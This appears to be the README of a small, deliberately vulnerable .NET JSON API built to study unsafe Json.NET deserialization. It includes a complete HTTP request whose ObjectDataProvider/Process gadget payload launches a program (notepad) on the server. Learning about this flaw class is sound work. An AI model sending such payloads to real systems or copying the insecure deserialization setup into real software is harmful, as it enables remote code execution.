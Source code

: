 # CerealKiller
Simple Vulnerable JSON API

Built out of a desire to experiment with unsafe .NET deserialization, CerealKiller basically ripped off [How to configure Json.NET to create a vulnerable web API](https://www.alphabot.com/security/blog/2017/net/How-to-configure-Json.NET-to-create-a-vulnerable-web-API.html).

The insecure endpoint is at /api/Insecure which deserializes an object (called 'Obj') passed via a POST request:

    POST /api/Insecure HTTP/1.1
    Host: localhost:50244
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/json
    Content-Length: 527

    {
      "Obj": {
        "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
        "MethodName": "Start",
        "MethodParameters": {
          "$type": "System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
          "$values": [
            "notepad"
          ]
        },
        "ObjectInstance": {
          "$type": "System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
        }
      }
  }
